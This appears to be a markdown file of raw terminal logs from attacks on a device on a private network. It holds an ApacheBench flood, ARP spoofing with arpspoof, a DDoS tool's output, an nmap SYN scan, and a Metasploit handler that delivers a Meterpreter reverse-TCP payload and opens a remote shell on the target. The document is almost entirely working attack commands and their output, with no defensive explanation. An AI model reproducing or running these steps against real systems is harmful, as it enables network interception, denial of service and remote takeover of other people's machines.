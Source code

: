 # C&C
ab -n 100 -c 100 http://192.168.0.100:8083/                           111 ⨯
This is ApacheBench, Version 2.3 <$Revision: 1879490 $>
Copyright 1996 Adam Twiss, Zeus Technology Ltd, http://www.zeustech.net/
Licensed to The Apache Software Foundation, http://www.apache.org/

Benchmarking 192.168.0.100 (be patient).....done


Server Software:        Cowboy
Server Hostname:        192.168.0.100
Server Port:            8083

Document Path:          /
Document Length:        0 bytes

Concurrency Level:      100
Time taken for tests:   0.121 seconds
Complete requests:      100
Failed requests:        0
Non-2xx responses:      100
Total transferred:      11700 bytes
HTML transferred:       0 bytes
Requests per second:    824.66 [#/sec] (mean)
Time per request:       121.262 [ms] (mean)
Time per request:       1.213 [ms] (mean, across all concurrent requests)
Transfer rate:          94.22 [Kbytes/sec] received

Connection Times (ms)
              min  mean[+/-sd] median   max
Connect:        3   29  15.0     29      48
Processing:     9   49   6.7     49      61
Waiting:        7   48   6.8     49      61
Total:         12   78  19.2     79     109

Percentage of the requests served within a certain time (ms)
  50%     79
  66%     88
  75%     95
  80%     99
  90%    106
  95%    108
  98%    109
  99%    109
 100%    109 (longest request)



# ARP
sudo arpspoof -i wlan0 -t 192.168.0.100 192.168.0.1
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae
6c:29:95:29:0:ae c4:0:ad:4d:72:73 0806 42: arp reply 192.168.0.1 is-at 6c:29:95:29:0:ae



# DDoS
TERM environment variable not set.
TERM environment variable not set.
 ____  ____                 _   _   _             _    
|  _ \|  _ \  ___  ___     / \ | |_| |_ __ _  ___| | __
| | | | | | |/ _ \/ __|   / _ \| __| __/ _` |/ __| |/ /
| |_| | |_| | (_) \__ \  / ___ \ |_| || (_| | (__|   < 
|____/|____/ \___/|___/ /_/   \_\__|\__\__,_|\___|_|\_\
                                                       

Author   : HA-MRX
You Tube : https://www.youtube.com/channel/UCCgy7i_A5yhAEdY86rPOinA
github   : https://github.com/Ha3MrX
Facebook : https://www.facebook.com/muhamad.jabar222

    _   _   _             _      ____  _             _   _             
   / \ | |_| |_ __ _  ___| | __ / ___|| |_ __ _ _ __| |_(_)_ __   __ _ 
  / _ \| __| __/ _` |/ __| |/ / \___ \| __/ _` | '__| __| | '_ \ / _` |
 / ___ \ |_| || (_| | (__|   <   ___) | || (_| | |  | |_| | | | | (_| |
/_/   \_\__|\__\__,_|\___|_|\_\ |____/ \__\__,_|_|   \__|_|_| |_|\__, |
                                                                 |___/ 
[====================] 100%
Sent 1 packet to 192.168.0.100 throught port:81
Sent 2 packet to 192.168.0.100 throught port:82
Sent 3 packet to 192.168.0.100 throught port:83
Sent 4 packet to 192.168.0.100 throught port:84
Sent 5 packet to 192.168.0.100 throught port:85
Sent 6 packet to 192.168.0.100 throught port:86
Sent 7 packet to 192.168.0.100 throught port:87


# Nmap
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS 192.168.0.100                                             1 ⨯
[sudo] kali 的密码：
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-05 15:06 CST
Nmap scan report for 192.168.0.100
Host is up (0.0020s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: C4:00:AD:4D:72:73 (Advantech Technology (china))

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds


# msf木马
$ msfconsole                                                              1 ⚙
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter 
session on many platforms using sessions -u 
<session_id>

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reversez_tcp
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload linux/x64(/meterpreter/reverse_tcp
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.0.134
lhost => 192.168.0.134
msf6 exploit(multi/handler) > set lport 4442
lport => 4442
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.0.134:4442 
[*] Sending stage (3020772 bytes) to 192.168.0.100
[*] Meterpreter session 1 opened (192.168.0.134:4442 -> 192.168.0.100:53058 ) at 2022-06-05 16:12:09 +0800

meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : eth0
Hardware MAC : c4:00:ad:4d:72:73
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.0.100
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::80eb:232d:ee28:4155
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : eth1
Hardware MAC : c4:00:ad:4d:72:74
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST


Interface  4
============
Name         : docker0
Hardware MAC : 02:42:17:17:4a:51
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.29.0.1
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::42:17ff:fe17:4a51
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  5
============
Name         : br-faab42de9c87
Hardware MAC : 02:42:66:47:aa:99
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.17.0.1
IPv4 Netmask : 255.255.0.0


Interface  7
============
Name         : vethbcd0c94
Hardware MAC : c6:84:9c:0a:6b:0a
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST

